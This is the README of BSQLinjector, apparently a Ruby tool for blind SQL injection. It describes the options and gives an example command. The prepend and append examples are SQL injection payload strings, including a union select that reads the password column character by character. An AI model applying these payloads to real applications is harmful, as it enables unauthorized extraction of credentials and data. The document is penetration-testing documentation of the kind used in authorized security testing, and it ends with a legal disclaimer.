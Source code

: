 ## BSQLinjector

BSQLinjector uses blind method to retrieve data from SQL databases.
I recommend using "--test" switch to clearly see how configured payload looks like before sending it to an application.

## Options:
```
  --file	    Mandatory - File containing valid HTTP request and SQL injection point (SQLINJECT). (--file=/tmp/req.txt)
  --pattern	    Mandatory - Pattern to look for when query is true. (--pattern=truestatement)
  --prepend	    Mandatory - Main payload. (--prepend="abcd'and'a'='b'+union+select+'truestatement'+from+table+where+col%3d'value'+and+substr(password,"
  --append	    How to end our payload. For example comment out rest of SQL statement. (--append='#)
  --schar	    Character placed around chars. This character is not used while in hex mode. (--schar="'")
  --2ndfile	    File containing valid HTTP request used in second order exploitation. (--2ndfile=/tmp/2ndreq.txt)

  --mode	    Blind mode to use - (between - b (generates less requests), moreless - a (generates less requests by using "<", ">", "=" characters), like - l (complete bruteforce), equals - e (complete bruteforce)). (--mode=l)
  --postgres        Use postgres "for" in substring function (e.g. from 1 for 1).
  --hex		    Use hex to compare instead of characters.
  --case	    Case sensitivity.

  --ssl		    Use SSL.
  --proxy	    Proxy to use. (--proxy=127.0.0.1:8080)

  --test	    Enable test mode. Do not send request, just show full payload.
  --special	    Include all special characters in enumeration.
  --start	    Start enumeration from specified character. (--start=10)
  --max		    Maximum characters to enumerate. (--max=10)
  --timeout	    Timeout in waiting for responses. (--timeout=20)
  --only-final	    Stop showing each enumerated letter.
  --comma	    Encode comma.
  --bracket	    Add brackets to the end of substring function. --bracket="))"
  --hexspace	    Use space instead of brackets to split hex values.
  --verbose	    Show verbose messages.
  ```

## Example usage:
```
  ruby ./BSQLinjector.rb --pattern=truestatement --file=/tmp/req.txt --schar="'" --prepend="abcd'and'a'='b'+union+select+'truestatement'+from+table+where+col%3d'value'+and+substr(password," --append="'#" --ssl
```

**Disclaimer**

This repository contains tool developed strictly for educational purposes. Any misuse of the tool for illegal activities is strictly prohibited.

**Legal Notice**

It is important to understand and comply with all local laws and regulations related to cybersecurity and ethical hacking. Unauthorized access to computer systems, networks, or data is illegal and punishable by law. The developer of this repository is not responsible for any misuse of the tools contained herein.

By using the tools in this repository, you agree to use them responsibly and ethically. Always obtain explicit permission before testing or attempting to access any network, system, or data that does not belong to you.

